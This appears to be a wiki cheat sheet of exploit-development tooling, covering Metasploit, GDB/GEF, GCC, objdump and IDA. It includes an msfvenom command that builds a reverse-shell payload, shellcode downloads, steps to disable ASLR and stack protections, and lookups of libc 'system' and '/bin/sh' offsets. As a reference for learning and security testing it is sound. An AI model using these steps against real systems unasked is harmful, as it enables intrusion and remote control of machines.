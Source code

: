 # Exploiting Tools

## Metasploit

```text
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

### Shellcodes

```text
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

## GDB

### Install

```text
apt-get install gdb
```

### Parameters

**-q** --&gt; No show banner  
**-x &lt;file&gt;** --&gt; Auto-execute GDB instructions from here  
**-p &lt;pid&gt;** --&gt; Attach to process

#### Instructions

&gt; **disassemble main** --&gt; Disassemble the function  
&gt; **disassemble 0x12345678**  
&gt; **set disassembly-flavor intel**  
&gt; **set follow-fork-mode child/parent** --&gt; Follow created process  
&gt; **p system** --&gt; Find the address of the system function  
&gt; **help**  
&gt; **quit**

&gt; **br func**  --&gt; Add breakpoint to function  
&gt; **br \*func+23**  
&gt; **br \*0x12345678  
&gt; del NUM** --&gt; Delete that number of br  
&gt; **watch EXPRESSION** --&gt; Break if the value changes

**&gt; run** --&gt; Execute  
**&gt; start** --&gt; Start and break in main  
&gt; **n/next** --&gt; Execute next instruction \(no inside\)  
&gt; **s/step** --&gt; Execute next instruction  
&gt; **c/continue** --&gt; Continue until next breakpoint

&gt; **set $eip = 0x12345678** --&gt; Change value of $eip  
&gt; **info functions** --&gt; Info abount functions  
&gt; **info functions func** --&gt; Info of the funtion  
&gt; **info registers** --&gt; Value of the registers  
&gt; **bt** --&gt; Stack  
&gt; **bt full** --&gt; Detailed stack

&gt; **print variable**  
&gt; **print 0x87654321 - 0x12345678** --&gt; Caculate  
&gt; **examine o/x/u/t/i/s dir\_mem/reg/puntero** --&gt; Shows content in octal/hexa/10/bin/instruction/ascii

* **x/o 0xDir\_hex**
* **x/2x $eip** --&gt; 2Words from EIP
* **x/2x $eip -4** --&gt;  $eip - 4
* **x/8xb $eip** --&gt; 8  bytes \(b-&gt; byte, h-&gt; 2bytes, w-&gt; 4bytes, g-&gt; 8bytes\)
* **i r eip** --&gt; Value of $eip
* **x/w pointer** --&gt; Value of the pointer
* **x/s pointer** --&gt; String pointed by the pointer
* **x/xw &pointer** --&gt; Address where the pointer is located
* **x/i $eip** —&gt; Instructions of the EIP

### [GEF](https://github.com/hugsy/gef)

```bash
checksec #Check protections
p system #Find system function address
search-pattern "/bin/sh" #Search in the process memory
vmmap #Get memory mappings

#Shellcode
shellcode search x86 #Search shellcodes
shellcode get 61 #Download shellcode number 61

#Patterns
pattern create 200 #Generate length 200 pattern
pattern search "avaaawaa" #Search for the offset of that substring
pattern search $rsp #Search the offset given the content of $rsp
```

### Tricks

#### GDB same addresses

While debugging GDB will have **slightly different addresses than the used by the binary when executed.** You can make GDB have the same addresses by doing:

* `unset env LINES`
* `unset env COLUMNS`
* `set env _=<path>` _Put the absolute path to the binary_
* Exploit the binary using the same absolute route
*  `PWD` and `OLDPWD` must be the same when using GDB and when exploiting the binary

#### Backtrace to find functions called

When you have a **statically linked binary** all the functions will belong to the binary \(and no to external libraries\). In this case it will be difficult to **identify the flow that the binary follows to for example ask for user input**.  
You can easily identify this flow by **running** the binary with **gdb** until you are asked for input. Then, stop it with **CTRL+C** and use the **`bt`** \(**backtrace**\) command to see the functions called:

```text
gef➤  bt
#0  0x00000000004498ae in ?? ()
#1  0x0000000000400b90 in ?? ()
#2  0x0000000000400c1d in ?? ()
#3  0x00000000004011a9 in ?? ()
#4  0x0000000000400a5a in ?? ()
```

### GDB server

`gdbserver --multi 0.0.0.0:23947` \(in IDA you have to fill the absolute path of the executable in the Linux machine and in the Windows machine\)

## GCC

**gcc -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -z norelro -z execstack 1.2.c -o 1.2** --&gt; Compile without protections  
**-o** --&gt; Output  
**-g** --&gt; Save code \(GDB will be able to see it\)  
**echo 0 &gt; /proc/sys/kernel/randomize\_va\_space** --&gt; To deactivate the ASLR in linux

**To compile a shellcode:  
nasm -f elf assembly.asm** --&gt; return a ".o"  
**ld assembly.o -o shellcodeout** --&gt; Executable

## Objdump

**-d** --&gt; Disassemble executable sections \(see opcodes of a compiled shellcode, find ROP Gadgets, find function address...\)  
**-Mintel** --&gt; Intel sintax  
**-t** --&gt; Symbols table \(grep varBSS to get the address\)  
**-D** --&gt; Disassemble all \(address of static variable\)  
**-s -j .dtors** --&gt; Contenido de dtors  
**-s -j .got** --&gt; Contenido de got  
**-TR** --&gt; Relocations  
**ojdump -t --dynamic-relo ./exec \| grep puts** --&gt; Address of "puts" to modify in GOT  
**objdump -TR ./exec \| grep exit\(func lib\)** —&gt; Get address of all the functions inside the GOT

## Core dumps

1. Run `ulimit -c unlimited` before starting my program
2. Run `sudo sysctl -w kernel.core_pattern=/tmp/core-%e.%p.%h.%t`
3. sudo gdb --core=&lt;path/core&gt; --quiet

## More

**ldd executable \| grep libc.so.6** --&gt; Address \(if ASLR, then this change every time\)  
**for i in \`seq 0 20\`; do ldd &lt;Ejecutable&gt; \| grep libc; done** --&gt; Loop to see if the address changes a lot  
**readelf -s /lib/i386-linux-gnu/libc.so.6 \| grep system** --&gt; Offset of "system"  
**strings -a -t x /lib/i386-linux-gnu/libc.so.6 \| grep /bin/sh** --&gt; Offset of "/bin/sh"

**strace executable** --&gt; Functions called by the executable  
**rabin2 -i ejecutable --&gt;** Address of all the functions

## **Inmunity debugger**

```bash
!mona modules    #Get protections, look for all false except last one (Dll of SO)
!mona find -s "\xff\xe4" -m name_unsecure.dll   #Search for opcodes insie dll space (JMP ESP)
```

## IDA

### Debugging in remote linux

Inside the IDA folder you can find binaries that can be used to debug a binary inside a linux. To do so move the binary _linux\_server_ or _linux\_server64_ inside the linux server and run it nside the folder that contains the binary:

```text
./linux_server64 -Ppass
```

 Then, configure the debugger: Debugger \(linux remote\) --&gt; Proccess options...:

![](../../.gitbook/assets/image%20%28112%29.png)

